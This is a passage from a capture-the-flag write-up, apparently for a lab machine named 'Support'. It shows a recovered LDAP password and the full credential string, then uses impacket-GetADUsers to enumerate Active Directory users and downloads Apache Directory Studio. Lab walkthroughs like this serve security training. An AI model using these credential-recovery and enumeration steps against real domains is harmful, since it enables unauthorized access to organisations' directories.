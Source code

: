 ```bash
python3 recoverpass.py 
Recovered Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

**creds**:
```plaintext
support//ldap:0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## Exploitation

Now that we got credentials, we try to search in to the machine using ldap. 
ldapsearch didn't work on mine so I used impacket-GetADUser instead

```bash
impacket-GetADUsers -all support.htb/ldap -dc-ip support.htb0
```
![alt text](image-10.png)

Instead of ldapsearch or impacket, use Apache Directory Studio so we can have a better view of the AD

```bash
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
```

```bash
sudo gunzip
sudo tar -xvf
./Apache-Directory-Studio
```
